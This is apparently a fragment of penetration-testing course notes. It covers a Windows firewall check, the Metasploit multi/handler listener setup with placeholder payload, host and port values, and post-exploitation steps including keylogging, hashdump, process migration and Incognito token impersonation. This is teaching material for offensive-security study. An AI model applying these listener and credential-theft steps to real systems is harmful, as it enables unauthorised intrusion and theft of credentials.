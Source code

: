 * Example: `netsh advfirewall show allprofiles`
![Windows Firewall](./Files/Images/Lesson5/winFirewall2.jpg)

### Multi/Handler

* msf>use exploit/multi/handler
* msf>set payload \<path of payload>
* msf>set [host \<IP addr>
* msf>set Iport \<listening port>
* msf>exploit

### Privilege Escalation

* Credential Theft
  * Plain Text
    * _Keylogging_
  * Hashed Value
    * _hashdump_
* Process Migration
  * Target system level process
    * _migrate [pid]_

### CredentialTheft

* Incognito
  * Originally its own application is now integrated ith Meterpreter
  * Allows for token impresonation on compromised hosts
* list_tokens
  * View all tokens at or below your privilege level  